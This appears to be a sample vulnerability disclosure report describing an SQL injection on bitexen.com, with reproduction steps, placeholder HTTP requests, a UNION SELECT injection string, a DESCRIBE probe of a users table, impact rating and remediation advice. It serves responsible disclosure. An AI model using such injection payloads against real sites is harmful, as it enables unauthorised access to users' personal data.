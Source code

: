 # SQL Injection - bitexen.com

## Researcher Information

Hello, I am Zeynep. You can access me at zeynep@example.com. My HackerOne account is "zeynep".

## Issue Description and Summary

I malformed the requests of the web page with Burp to successfully run SQL queries. I checked the table schemas in the database but did not access any data thinking there could be sensitive information there. There was column names like account e-mail and phone number.

## Affected URLs / Applications

- Domain bitexen.com

## Risk Category

- Risk: Critical
- Risk: Disclosure of sensitive user information (national identity, physical address, phone number)
- CVSS v3 score: 9.8 CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Steps to Reproduce / PoC

- Login to your Bitexen account, change account details, press "Save"
- Intercept the request with Burp or other proxy tools
- Change the POST data of the request from `username=example` to `username=example' UNION SELECT sum(columnname ) from tablename --`
- Send the request and watch the response

- Original request

        POST https://bitexen.com/application/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data

- Original response

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        OK

- Malformed request

        POST https://bitexen.com/application/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data' UNION SELECT sum(columnname ) from tablename --

- Response for malformed request

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        5

- This time, the same request is sent by entering `DESCRIBE bitexen_db.users`. It can be seen that the database and the tables can be accessed.

        +-------+--------------+------+-----+---------+-------+
        | Field | Type         | Null | Key | Default | Extra |
        +-------+--------------+------+-----+---------+-------+
        | id    | int(11)      | YES  | MUL | NULL    |       |
        | Name  | varchar(100) | YES  | MUL | NULL    |       |
        +-------+--------------+------+-----+---------+-------+
        2 rows in set (0.05 sec)

Screeshots:

- Screenshot 1
- Screenshot 2

## Impact

An attacker can access sensitive user information. It is not possible to hijack user accounts due to no passwords seem to be in the database but the information which can be accessed is critical. The data can also be edited or deleted by the attacker.

## Remediation Suggestions / Supporting Material / Referances

Instead of creating SQL queries from the user input, parameterized API can be used. If this option is not feasible, the user input must be sanitized before creating SQL queries. Also, the permissions of the SQL service and account should be limited.

Resources:

- <https://www.w3schools.com/sql/sql_injection.asp>
- <https://portswigger.net/web-security/sql-injection>
- <https://owasp.org/www-community/attacks/SQL_Injection>
- <https://www.acunetix.com/websitesecurity/sql-injection/>
